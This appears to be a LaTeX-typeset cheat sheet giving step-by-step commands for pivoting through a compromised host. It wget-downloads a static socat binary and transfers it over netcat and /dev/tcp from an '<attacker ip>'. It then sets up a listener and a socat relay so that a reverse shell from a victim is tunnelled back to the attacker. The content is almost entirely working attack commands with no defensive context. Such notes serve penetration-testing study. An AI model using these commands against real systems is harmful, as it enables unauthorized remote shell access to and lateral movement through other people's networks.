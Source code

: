 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\begin{document}
\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Get socat static binary

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{wget}\NormalTok{ https://github.com/aledbf/socat-static-binary/releases/download/v.0.0.1/socat-linux-amd64}
\end{Highlighting}
\end{Shaded}
\item
  Send sockat to pivoting machine

  \begin{itemize}
  \item
    on attacker machine

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{md5sum}\NormalTok{ socat}
\ExtensionTok{nc}\NormalTok{ -nlvp 1111 }\OperatorTok{<}\NormalTok{ socat}
\end{Highlighting}
\end{Shaded}
  \item
    on pivotin machine

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cat} \OperatorTok{>}\NormalTok{ socat }\OperatorTok{<}\NormalTok{ /dev/tcp/}\OperatorTok{<}\NormalTok{attacker ip}\OperatorTok{>}\NormalTok{/1111}
\ExtensionTok{md5sum}\NormalTok{ socat}
\FunctionTok{chmod}\NormalTok{ +x socat}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\item
  Prepare attacker machine for listenning

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 7979}
\end{Highlighting}
\end{Shaded}
\item
  Tuneling tcp data for reverse shell from victim to the attacker

  \begin{itemize}
  \tightlist
  \item
    on pivoting machine
  \end{itemize}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{./socat}\NormalTok{ TCP-LISTEN:4545,fork tcp:}\OperatorTok{<}\NormalTok{attacker ip}\OperatorTok{>}\NormalTok{:7979 }\KeywordTok{&}
\end{Highlighting}
\end{Shaded}
\item
  Reverse shell from victim to pivoting machine on 4545 port
\end{enumerate}
\end{document}
